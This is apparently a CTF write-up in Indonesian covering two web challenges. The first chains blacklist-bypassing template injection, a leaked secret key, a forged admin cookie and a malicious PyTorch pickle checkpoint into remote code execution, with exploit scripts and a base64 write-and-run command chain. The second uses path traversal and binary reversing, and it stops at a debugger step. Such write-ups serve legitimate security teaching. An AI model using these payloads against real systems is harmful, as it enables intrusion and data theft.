# Web Exploitation

<!-- challenge-index: caa26df988482dd9 -->

| Challenge | Topic |
| --- | --- |
| [No Hate Speech (230 pts)](#no-hate-speech-230-pts) | Model Deserialization, Template Injection |
| [Rocket Shop Goes by (350 pts)](#rocket-shop-goes-by-350-pts) | Rust, Path Traversal |

<!-- /challenge-index -->

## No Hate Speech (230 pts)

### Solution

Diberikan akses ke sebuah website dan source code. Lakukan analysis terhadap source codenya. Dapat dilihat bahwa ada 2 container yaitu web app dan ml app, container yang public facing adalah web app mari kita cek web app.

<figure><figcaption></figcaption></figure>

Terdapat vulnerability SSTI pada line yang diblock dimana kita ketahui dari adanya string yang bisa kita kontrol pada argument render\_template\_string. Namun disini terdapat blacklist yang membuat kita tidak bisa menggunakan common payload untuk SSTI yaitu

```python
blacklist = ["_", "]", "[", ">", "<", "{{", "}}", ".", "$"] 
```

Kuncinya disini kita bisa melakukan SSTI dengan {% % }. Salah satu referensi yang saya gunakan adalah website berikut <https://ctf.zeyu2001.com/2022/securinets-ctf-finals-2022/strong>. Intinya kita bisa membypass character character penting untuk payload ssti seperti \_, square brackets, dan {{ }}. Pada payload di website tersebut hanya memanfaatkan function yang tersedia dari module yang telah diimport, bedanya disini saya membuat payload untuk melakukan import dengan memanfaatkan builtin function. Berikut adalah payload RCE pertama saya

```python

```

Setelah mendapat rce kita lanjut ke container kedua yaitu ml app.

<figure><figcaption></figcaption></figure>

pada ml app ada satu endpoint yang tidak dipanggil dimana-mana yang sangat mencurigakan. Jadi disini saya coba cari mengenai torch.load tersebut karena bedanya disini kita bisa pakai model kita sendiri. Kemudian saya mendapat referensi berikut <https://hackmd.io/@Solderet/SomeWriteupForWaniCTF2023-XogSiA>. Jadi ketika torch.load digunakan dan kita bisa menggunakan model kita sendiri kita bisa melakukan RCE dengan memanfaatkan pickle deserialization. Selanjutnya ada proteksi lain yaitu harus ada admin di session, melihat dari docker-compose kita tahu bahwa SECRET\_KEY yang digunakan pada container web dan ml itu sama. Jadi lakukan leak untuk SECRET\_KEY terlebih dahulu

<figure><figcaption></figcaption></figure>

```python
import requests

burp0_url = "http://178.128.102.212:5001/check?__=a&.=b"
burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "Origin": "http://178.128.102.212:5001", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://178.128.102.212:5001/", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
list_command = []
command = "env"
list_command.append(command)
for i in list_command:
exploit = ""
burp0_data = {"sentence": exploit}
resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(resp.text)
```

&#x20;

<figure><figcaption></figcaption></figure>

Didapatkan secret\_keynya adalah sup3rsecret-k3y-666, jadi selanjutnya tinggal otomasi untuk exploit picklenya. Jalankan kode berikut dengan python3.12 sesuai dengan container target

```python
import torch

PATH = "exploit.ckpt"

class P(object):
    def __reduce__(self):
        return (exec, ("raise Exception(__import__('os').popen('cat /flag*').read())",))

torch.save(P(), PATH)
```

<figure><figcaption></figcaption></figure>

Generate cookie dengan key admin menggunakan secret\_key yang udah dileak

<figure><figcaption></figcaption></figure>

Selanjutnya buat kode python untuk mengirim exploit ke ml\_app karena tidak ada curl yang bisa digunakan.



```python
import requests

cookies = {
"session" : "eyJhZG1pbiI6dHJ1ZX0.Zsn0Ng.ncXMk8DloFS8cbUVnj7E4W5KdCI"
}
files = {'model_file': open('/tmp/exploit.ckpt','rb')}
data = {
"user_input" : "asd"
}
response = requests.post(
        "http://ml_app:5000/custom-analyze", cookies=cookies, files = files, data=data
)

print(response.text)
```



Terakhir, bikin otomasi untuk mengirimkan file exploit ml\_app dan exploit.ckpt ke web\_app dan menjalankannya. Untuk bypass > dan . bisa gunakan format hex untuk string yaitu \x\<hex\_val>

```python
import requests
import base64

def conv(filename):
f = open(filename, "rb").read()
return base64.b64encode(f).decode()

burp0_url = "http://178.128.102.212:5001/check?__=a&.=b"
burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "Origin": "http://178.128.102.212:5001", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://178.128.102.212:5001/", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
list_command = []

command = f"echo -n \"{conv('ml_expl.py')}\" | base64 -d \\x3e /tmp/lol\\x2epy"
list_command.append(command)

command = f"echo -n \"{conv('tmp/exploit.ckpt')}\" | base64 -d \\x3e /tmp/exploit\\x2eckpt"
list_command.append(command)

command = "python /tmp/lol\\x2epy"
list_command.append(command)

command = "rm /tmp/lol\\x2epy"
list_command.append(command)

command = "rm /tmp/exploit\\x2eckpt"
list_command.append(command)

for i in list_command:
exploit = ""
burp0_data = {"sentence": exploit}
resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(resp.text)
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Flag: CBC2024{bdb39edbd4a4cafd4147200936684880}

## Rocket Shop Goes by (350 pts)

### Solution

Diberikan akses ke sebuah website, login dengan hint yang diberikan yaitu guest:guest

<figure><figcaption></figcaption></figure>

Terdapat beberapa hyperlink, klik Astronaut. Pada burpsuite dapat diketahui terdapat request ke endpoint /view dengan parameter file.&#x20;

&#x20;

<figure><figcaption></figcaption></figure>

Dari parameter terlihat seperti vulnerable terhadap local file read dengan memanfaatkan path traversal, gunakan common payload untuk membaca /etc/passwd

<figure><figcaption></figcaption></figure>

Disini kita sudah berhasil membaca /etc/passwd, selanjutnya saya coba membaca /flag.txt namun gagal.

<figure><figcaption></figcaption></figure>

Selanjutnya mencari informasi mengenai http server rocket ditemukan referensi berikut

<figure><figcaption></figcaption></figure>

Jadi rocket adalah framework dari rust, selanjutnya saya coba leak informasi dari project yaitu pada file Cargo.toml.

<figure><figcaption></figcaption></figure>

Coba lakukan leak terhadap source code

<figure><figcaption></figcaption></figure>

Karena tidak bisa maka lakukan leak untuk executablenya, ada 2 mode yang saya cari debug dan release dan ternyata ada pada release.

Setelah berhasil mendownload, buka dengan IDA.

<figure><figcaption></figcaption></figure>

filter nama fungsi berdasarkan nama project

<figure><figcaption></figcaption></figure>

Terdapat beberapa fungsi, terdapat fungsi get\_flag yang besar kemungkinan untuk mendapatkan flag. Disini terdapat beberapa informasi yang kita pegang, seperti endpoint untuk view file, jadi kita harus cari korelasi antara fungsi view dan endpointnya. Enumerasi satu-satu fungsi view.

<figure><figcaption></figcaption></figure>

Pada fungsi dengan nama \_ZN19rocket\_ship\_goes\_by9view\_file9into\_info22monomorphized\_function17h9a620aead7e1bf75E terdapat xref ke fungsi main, jika kita decompile pada xrefnya dapat dilihat terdapat endpoint untuk fungsi view.

<figure><figcaption></figcaption></figure>

Jadi untuk mendapatkan endpoint fungsi get\_flag, kita lakukan hal yang sama.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Disini kita sudah tahu endpoint untuk get\_flag yaitu wintheflag. Selanjutnya kita analisis fungsi get\_flag

<figure><figcaption></figcaption></figure>

Pada fungsi \_ZN19rocket\_ship\_goes\_by8get\_flag9into\_info22monomorphized\_function28\_$u7b$$u7b$closure$u7d$$u7d$17ha81b4a5bad28ccbaE terdapat validasi untuk cookie dan kalau kita konversi nialinya adalah admin

<figure><figcaption></figcaption></figure>

Jadi disini kita diharuskan menggunakan admin untuk cookienya, namun dari request sukses yang kita tahu cookie hanya ada user. Jadi kita bisa lakukan debug apakah admin itu key atau value dari user tersebut. Untuk melakukan debug cukup buat direktori template aja, yang lain bisa diabaikan karena relate ke UI daripada ke backendnya.

<figure><figcaption></figcaption></figure>

Selanjutnya breakpoint pada 0x24CAC3

```
pie b 0x24CAC3
pie run
```

Akses endpoint /wintheflag dengan cookie dari login guest

